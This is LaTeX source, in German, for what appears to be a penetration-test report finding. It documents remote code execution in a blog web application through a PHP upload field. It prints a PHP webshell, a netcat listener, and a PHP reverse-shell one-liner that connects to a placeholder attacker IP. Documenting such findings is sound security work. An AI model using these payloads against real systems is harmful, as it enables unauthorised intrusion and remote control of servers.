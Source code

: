 \section{\makecvssbadge Remote Code Execution (RCE)}

\subsection*{Proof of Concept}
Dieser Benutzer \textit{Odo} hat Entwicklerrechte für die Webanwendung und kann Konfigurationen an der Webanwendung vornehmen. Unter der Adresse \url{http://10.0.68.101:80/} können die Felder zum Erstellen eines Blogeintrags geändert werden. Es kann ein Datei-Upload-Feld hinzugefügt werden, das das Hochladen von PHP-Dateien ermöglicht. PHP-Dateien müssen explizit als gültiges Datenformat in die Validierungsregeln aufgenommen werden. Dadurch kann ein Blogeintrag erstellt werden, an den eine PHP-Webshell angehängt wird (Siehe \autoref{listing:php-webshell}). Der Angreifer kann mit dem Befehl in \autoref{listing:netcat-listener} einen Netcat-Listener starten und anschließend in der Web-Shell mit dem Befehl in \autoref{listing:pedikuere:revers_shell} eine Reverse Shell starten. Ein Nachweis ist in \autoref{fig:01_pedikuere_salon_proof} dargestellt.

\begin{listing}[!ht]
\begin{verbatim}
nc -lvp 9001
\end{verbatim}
\caption{Netcat-Listener für eine Reverse Shell auf Port 9001}
\label{listing:netcat-listener}
\end{listing}

\begin{listing}[!ht]
\begin{verbatim}
php -r '\$sock=fsockopen("<Angreifer-IP>",9001);exec("/bin/sh -i <\&3 >\&3 2>\&3");'
\end{verbatim}
\caption{Reverse Shell initiieren über die hochgeladene Webshell}
\label{listing:pedikuere:revers_shell}
\end{listing}


\begin{listing}[!ht]
\begin{verbatim}
<php system($_REQUEST['cmd']); ?>
\end{verbatim}
\caption{Einfache PHP Webshell}
\label{listing:php-webshell}
\end{listing}

